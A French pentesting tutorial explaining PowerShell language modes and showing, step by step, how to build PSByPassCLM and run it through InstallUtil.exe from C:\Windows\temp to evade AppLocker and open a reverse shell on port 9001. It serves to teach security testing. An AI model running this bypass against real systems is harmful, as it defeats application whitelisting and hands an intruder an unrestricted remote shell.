 ```yaml
---
title: "[AppLocker CLM] Bypass le mode de langage contraint en PowerShell"
description: clm.jpg
tags: ["Dans cet article je vous présente le système CLM (Constrained Language Mode) vous montrez le fonctionnement et de vous montrez comment bypass ce système qui vous donne pas assez de permissions dans un système PowerShell."]
---
```


![Flower](../clm.jpg)

Introduction
----
Dans ce cours à but éducatif nous allons voir `COMMENT BYPASS CONSTRAINED LANGUAGE MODE (CLM)` ou en français (Mode de langage contraint) sous PowerShell grâce à l'outil `PSByPassCLM`, téléchargeable sur [GITHUB](https://github.com/padovah4ck/PSByPassCLM). C'est un outil très utile en `PENTEST` et je devais absolument vous présenter ça. <br />

Cet outil permet d'avoir beaucoup plus de permissions dans une session `PowerShell` et exécuter des commandes comme par exemple télécharger des fichiers sur un système à distance et bien d'autre chose. <br />

CLM
----
Avant d'aller vers le technique, il faut avant tout comprendre le système `CLM`. Il s’agit d’une restriction qui vous empêche d’abuser de nombreuses fonctionnalités de powershell et de vous en servir pour énumérer, augmenter les privilèges, organiser des charges utiles et une tonne d’autres éléments. C'est `AppLocker` qui limite tout et bloque les accès, AppLocker c'est un système pour côntrolez des applications et de gérer il est disponible sur `Windows Server` et `Windows 10`.

Il y'a `4 modes` en particulier en PowerShell : 

- FullLanguage
- ConstrainedLanguage
- RestrictedLanguage
- NoLanguage

## LANGUE COMPLÈTE (FullLanguage) :

Le mode de langue FullLanguage autorise tous les éléments de langue de la session. FullLanguage est le mode de langue par défaut pour les sessions par défaut sur toutes les versions de Windows, à l'exception de Windows RT.

## LANGUE RESTREINTE (RestrictedLanguage) :

En mode linguistique RestrictedLanguage, les utilisateurs peuvent exécuter des commandes (applets de commande, fonctions, commandes CIM et workflows), mais ne sont pas autorisés à utiliser des blocs de script.

## AUCUNE LANGUE (NoLanguage) :

En mode linguistique NoLanguage, les utilisateurs peuvent exécuter des commandes, mais ils ne peuvent utiliser aucun élément de langage dans un PowerShell.

## LANGUE CONTRAINTE (Constrained Language) :

Le mode de langage ConstrainedLanguage autorise toutes les cmdlets Windows et tous les éléments de langage PowerShell, mais limite les types autorisés.

Actuellement je suis en mode `FullLanguage`, si vous souhaitez voir le mode dans votre PowerShell tapez cette commande `$ExecutionContext.SessionState` :

![Flower](https://image.noelshack.com/fichiers/2019/23/1/1559581679-screenshot-2.png)

Comme vous pouvez le voir, je suis en mode `FullLanguage`, cette fonctionnalité designe que justement j'ai les permissions pour exécuter des tâches (Ce qui est plutôt cool).

Mais dans certains cas vous pouvez voir ce type de chose pour éviter que les intrus exécutent n'importe quoi ou bien pour la sécurité : <br />

![Flower](https://image.noelshack.com/fichiers/2019/23/1/1559586084-screenshot-4.png)

Concrètement comme vous pouvez le voir je suis en mode `ConstrainedLanguage`, vous ne pouvez pas par exemple exécuter un fichier à distance, télécharger des fichiers à distance etc..

.NET
----
Avant de commencer les choses nous devons commencer par télécharger le framework `.NET`. Le .NET Framework est un cadriciel pouvant être utilisé par un système d'exploitation Microsoft Windows et Microsoft Windows Mobile depuis la version 5.

Commencer par ouvrir `Exécuter` avec la touche `WINDOWS + R` et ensuite de saisir `appwiz.cpl` et ensuite d'aller vers `Activer ou désactiver des fonctionnalités Windows`. Chercher ce système `.NET Framework 3.5 (inclut .NET 2.0 et 3.0)` (pour mon cas). Vous cochez la petite case et ensuite vous appuyez sur `OK` afin d'installer `.NET` sur votre ordinateur.

![Flower](https://image.noelshack.com/fichiers/2019/23/1/1559583478-screenshot-5.png)

Build
----
Allez dans les dossiers de `.NET` pour build le fichier `.sln` dans le dossier `PSByPassCLM-master`.

    PS C:\Users\Administrateur> cd C:\Windows\Microsoft.NET\Framework64\v4*
    PS C:\Windows\Microsoft.NET\Framework64\v4.0.30319> .\MSBuild.exe C:\Users\Administrateur\Desktop\PSByPassCLM-master\PSBypassCLM\PsBypassCLM.sln
 
Et pendant ce temps là dans le dossier `*\PSByPassCLM-master\PSBypassCLM\PSBypassCLM\bin\Debug\PsBypassCLM` il a crée un fichier exécutable et ce fichier va nous permettre de changer de mode dans une session PowerShell.

Reverse Shell
----
Donc nous arrivons presque à la fin pour effectuer notre reverse shell, nous allons utiliser l'outil `InstallUtil.exe` dans le même dossier que `MSBuild.exe`. Avant ça je vais crée un `listener` qui écoute le port `9001`.

![Flower](https://image.noelshack.com/fichiers/2019/23/1/1559585369-screenshot-1.png)

Et enfin de saisir cette commande pour effectuer notre reverse shell et être en mode `FullLanguage` dans notre système PowerShell (that's cool) : 

    PS C:\Windows\Microsoft.NET\Framework64\v4.0.30319> .\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=localhost /rport=9001 /U c:\windows\temp\PsBypassCLM.exe

Ah oui un détail assez important n'oublier surtout pas de mettre le fichier `PsBypassCLM.exe` dans `C:\Windows\temp\PsBypassCLM.exe` pour Bypass `AppLocker`.

![Flower](https://image.noelshack.com/fichiers/2019/23/1/1559585660-screenshot-2.png)

Et enfin pendant ce temps là dans notre `listener` j'ai accès à un shell en mode `FullLanguage` et pour pouvoir exécuter des commandes dans le système.

![Flower](https://image.noelshack.com/fichiers/2019/23/1/1559585801-screenshot-3.png)

C'est un tutorial assez simple et assez rapide, pour vous présentez le fonctionnement de ce système.


